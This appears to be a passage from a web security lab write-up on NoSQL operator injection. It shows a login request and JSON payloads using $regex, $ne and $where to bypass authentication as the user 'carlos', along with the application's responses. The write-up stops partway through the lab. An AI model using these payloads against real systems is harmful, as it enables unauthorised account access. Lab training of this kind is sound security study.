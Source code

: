 ```
{"username":"admin","password":{"$regex":"^a*"}}
```

<br><br>

#### Lab: Exploiting NoSQL operator injection to extract unknown fields


Goal:  Log into the application as carlos


* The following request contains a NoSQL injection vulnerability:

```
POST /login HTTP/2
Content-Type: application/json

 {
 	"username":"test",
 	"password":"test"
 }
```


* Inject different payloads into the application request to see how the responses change:


* Application response - Account locked: please reset your password

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  }
}
```

* Application response - Invalid username or password

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "0"
}
```

Application response - Account locked: please reset your password 


```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "1"
}
```

